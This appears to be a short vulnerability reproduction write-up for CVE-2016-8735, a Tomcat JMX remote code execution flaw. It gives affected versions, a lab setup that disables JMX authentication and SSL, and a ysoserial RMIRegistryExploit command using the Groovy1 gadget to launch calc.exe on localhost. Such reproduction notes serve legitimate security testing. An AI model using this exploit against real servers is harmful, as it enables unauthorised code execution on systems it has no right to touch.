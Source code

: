 ```yaml
---
title: Apache Tomcat Remote Code Execution(CVE-2016-8735)
date: 2016-12-05 14:56:35
tags: Tomcat
---
```


### 0x01 Affected Platform
```
Apache Tomcat 9.0.0.M1 to 9.0.0.M11
Apache Tomcat 8.5.0 to 8.5.6
Apache Tomcat 8.0.0.RC1 to 8.0.38
Apache Tomcat 7.0.0 to 7.0.72
Apache Tomcat 6.0.0 to 6.0.47
Earlier, unsupported versions may also be affected
```
### 0x02 Test Platform
```
Window2003 x86
[POC](https://github.com/frohoff/ysoserial)
[Apache Tomcat](http://archive.apache.org/dist/tomcat/tomcat-8/v8.0.36/bin/apache-tomcat-8.0.36-windows-x86.zip)
[catalina-jmx-remote](http://archive.apache.org/dist/tomcat/tomcat-8/v8.0.36/bin/extras/catalina-jmx-remote.jar)  //add to tomcat/lib/
[Groovy](https://repo1.maven.org/maven2/org/codehaus/groovy/groovy/2.3.9/groovy-2.3.9.jar)    //add to tomcat/lib/
```
### 0x03 Pentesting Step
#### 1. add code to tomcat/bin/catalina.bat
```
@echo off
set "JAVA_OPTS=-Dcom.sun.management.jmxremote.ssl=false -Dcom.sun.management.jmxremote.authenticate=false"
rem Licensed to the Apache Software Foundation (ASF) under one or more
```
#### 2. add code to tomcat/conf/server.xml

```
<Listener className="org.apache.catalina.mbeans.GlobalResourcesLifecycleListener" />
<Listener className="org.apache.catalina.core.ThreadLocalLeakPreventionListener" />

<Listener className="org.apache.catalina.mbeans.JmxRemoteLifecycleListener" rmiRegistryPortPlatform="10001" rmiServerPortPlatform="10002" />

<!-- Global JNDI resources
       Documentation at /docs/jndi-resources-howto.html
-->
```
#### 3. Start tomcat/bin/startup.bat
#### 4. run
```
C:\Documents and Settings\Administrator> java -cp ysoserial.jar ysoserial.exploi
t.RMIRegistryExploit localhost 10001 Groovy1 "calc.exe"
```

### 0x04 Referer
http://seclists.org/oss-sec/2016/q4/502

